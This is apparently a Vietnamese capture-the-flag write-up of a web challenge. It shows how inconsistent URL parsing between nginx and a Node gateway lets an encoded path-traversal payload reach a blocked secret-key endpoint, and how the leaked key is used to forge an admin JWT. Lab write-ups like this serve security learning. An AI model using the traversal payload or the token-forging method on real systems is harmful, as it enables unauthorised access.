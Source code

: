 ![image](https://github.com/caodchuong312/CTFs/assets/92881216/9f28dde2-0b74-4f54-8214-72146b675ba5)

Xuất hiện `Admin Flag` và nó thứ cần mua. Giờ signup và login.

Sau khi login nhận được `jwt` là `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImNodW9uZyIsIm5hbWUiOiJjaHVvbmciLCJpYXQiOjE2OTMxMTA3NTB9.RoQQLk5EYawd7cC94tjDKATpsoVYPQx9aGPTa4qoI3k`

![image](https://github.com/caodchuong312/CTFs/assets/92881216/5f3d2f92-6176-4755-be0b-c53ccf69d998)

Flag đã sold old và ta cần truy cập vào admin để lấy.

![image](https://github.com/caodchuong312/CTFs/assets/92881216/0cd13f19-a4dd-408e-98f8-439f13e8c94e)

Thử làm bài thứ cơ bản với nó như brute-force, thay đổi `alg`,... nhưng không khả thi.

Trong `api-nginx.conf`:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/19d48cd8-078b-49e0-8a60-73c026c5a556)

Nó chặn path `/api/_`.

Trong `ms-secret/server.js`:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/2d8a553c-be9b-445d-a0dd-9d701598a3bd)

Như vậy `/_secret/keys` chứa secret key để sign `jwt`. Ta cần lấy secret key đó tại `/api/_secret/keys` và tất nhiền là bị deny.

![image](https://github.com/caodchuong312/CTFs/assets/92881216/8519dd21-7650-467e-8964-297a6082a387)

Cách khai thác ở đây nhờ vào việc parse URL không nhất quán giữa `nginx` và `node`.

- Trong `api-nginx`, nginx chuẩn hóa path theo rules:

`/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e` => `/api/user/../_secret/keys#/../..` => `/api`

- Trong gateway matching, `node` không decode `%2f` (`/`):

`/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e` => `/api/user/..%2f_secret/keys%23%2f..%2f..`

- Ở gateway các ký tự encode URL sẽ được decode:

`/api/user/..%2f_secret/keys%23%2f..%2f..` => 	`/api/user/../_secret/keys#/../..` => 	`/user/../_secret/keys#/../..`

- `#` bỏ qua phần sau và nginx sẽ match với api: `/_secret/keys`.

payload: `/api/user/%2e%2e%2f_secret/keys%23%2f%2e%2e%2f%2e%2e`

![image](https://github.com/caodchuong312/CTFs/assets/92881216/942f0cd6-ce81-4dd1-a622-81c75dc84a53)

dùng `ASDZFHL.KWLJFYPOJWEPMP3OMXPfJCVJKLWEJL_2` để đổi `id` sang `admin` và mua flag:

![image](https://github.com/caodchuong312/CTFs/assets/92881216/2cf9a362-aabb-48e9-9180-f9e0c3acf992)

`jwt`` mới `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImFkbWluIiwibmFtZSI6ImNodW9uZyIsImlhdCI6MTY5MzExMDc1MH0.6j_x7GSLj5teXHzCJI0xjbmRNkutiAQBJZqgeChq8tg`

![image](https://github.com/caodchuong312/CTFs/assets/92881216/f3f0fb72-89e7-47c2-8d98-9c3871f8a119)

>flag `sctf{InC0nSistenCy&vu1nerlable_syntax_make_it_vulnerable}`
